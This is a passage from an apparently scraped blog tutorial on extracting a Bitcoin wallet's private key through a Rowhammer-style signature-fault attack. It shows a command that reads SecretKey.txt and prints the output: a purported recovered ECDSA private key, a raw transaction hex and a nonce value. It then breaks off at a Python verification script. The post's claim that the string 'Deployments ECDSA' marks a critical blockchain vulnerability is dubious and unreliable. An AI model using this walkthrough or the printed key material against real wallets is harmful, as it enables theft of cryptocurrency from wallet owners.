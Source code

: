 

<p>Now to see the successful result, open the file<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="./How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault Rowhammer Attack on Bitcoin CRYPTO DEEP TECH_files/image-155-1024x454.png" alt="How to Get a Private Key to a Bitcoin Wallet Using a Signature Fault (Rowhammer Attack on Bitcoin)" class="wp-image-1280"></figure>



<pre class="wp-block-code"><code>Deployments ECDSA:

SecretKey = 0x093bf9a5eb46ddeff6bcf94a326d00f89bc0ce6cbada4c5897758550eae10383

RawTX = 0100000001e4705464562efc76d90240841ff3ed91c8db0b58ee4666502cb0a35cd5611f990d0000006a4730440220682e6b2b855d9ca3e9e88a1ecf44cfe82461560c6c6db54c0c894e9c3e8b1e880220052dd955d1521081a2e48b1830ee17e3c3f75eaf5fdc9072905914f5872155b9012102083a0f1f4d81e74cb2903feccbaf82f7cb5cbeecafd178caefa2fa10d2dfe54dffffffff0158020000000000001976a914406840ebc10519e0934c739a83a2d51f70ff09ae88ac00000000</code></pre>



<p>We see an inscription&nbsp;<code>"Deployments ECDSA"</code>that means a critical vulnerability in the Bitcoin blockchain transaction.</p>



<p><code>SecretKey value in HEX format, this is our secret key "K" (NONCE):</code></p>



<p><code>K = 0x79aae6b77caa2bddd8e133f963bd236f71ff15dc9b50aa1d977bc4c44689edca</code></p>



<hr class="wp-block-separator has-alpha-channel-opacity">



<h2>Let’s check with a&nbsp;<em>Python</em>&nbsp;script<code>point2gen.py</code></h2>
